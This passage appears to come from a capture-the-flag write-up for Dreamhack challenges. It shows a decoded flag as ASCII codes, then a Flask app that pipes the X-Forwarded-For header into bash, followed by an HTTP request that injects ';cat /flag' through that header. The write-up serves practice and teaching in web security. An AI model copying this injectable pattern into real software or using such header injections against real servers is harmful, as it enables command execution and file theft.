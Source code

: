 `values`
```shell
49 68 72 123 97 110 65 49 121 122 49 110 71 86 101 51 121 66 49 57 76 48 103 125
```


## what-is-my-ip

[Challenge](https://dreamhack.io/wargame/challenges/1186)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/ebb53181-924e-4cc2-991a-db5100836305.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241231%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241231T045054Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=405061928cb1c96aafac364969b98bea1c767cade953e534d40dd4e77d92324a)

```python
#!/usr/bin/python3
import os
from subprocess import run, TimeoutExpired
from flask import Flask, request, render_template

app = Flask(__name__)
app.secret_key = os.urandom(64)


@app.route('/')
def flag():
    user_ip = request.access_route[0] if request.access_route else request.remote_addr
    try:
        result = run(
            ["/bin/bash", "-c", f"echo {user_ip}"],
            capture_output=True,
            text=True,
            timeout=3,
        )
        return render_template("ip.html", result=result.stdout)

    except TimeoutExpired:
        return render_template("ip.html", result="Timeout!")


app.run(host='0.0.0.0', port=3000)
```

In this challenge, a vulnerability in command injection was exposed in the `user_ip` variable that the system retrieves. Using this, I added an `X-Forwarded-For` field to inject an IP and a command.

```shell
GET / HTTP/1.1
Host: host1.dreamhack.games:21554
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0.0.0.0;cat /flag
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```


[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".